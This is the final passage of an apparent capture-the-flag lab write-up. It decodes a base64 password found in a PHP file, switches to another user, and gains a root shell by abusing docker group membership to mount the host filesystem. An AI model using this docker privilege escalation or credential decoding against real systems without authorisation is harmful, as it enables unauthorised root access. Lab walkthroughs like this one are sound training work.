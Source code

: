 It gives us a file, let's view it:
```bash
cat  source_code.php
```

We find a base64 encoded password, decode it:
```bash
echo "IWQwbnRLbjB3--REDACTED" | base64 -d
```

Here we have it: REDACTED

In that file we also find this message:
```
"Welcome Anurodh"
```

We can go back on the target machine and switch user:
```bash
su anurodh
```

#### Becoming Root
From the previous linepeas scan we saw that this user is in the docker group, alternatively you could check it with `id` or `groups $USER`.
Docker can be dangerous, in fact we can mount the filesystem as root:
```bash
 docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This gives us a shell as root, we can now get the last flag:
```bash
cd /root; ls
```

```bash
cat proof.txt
```

<br/>
<br/>

## Conclusion
Congratulations you have successfully practiced with multiple privilege escalation and some light web exploitation and password creacking.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 

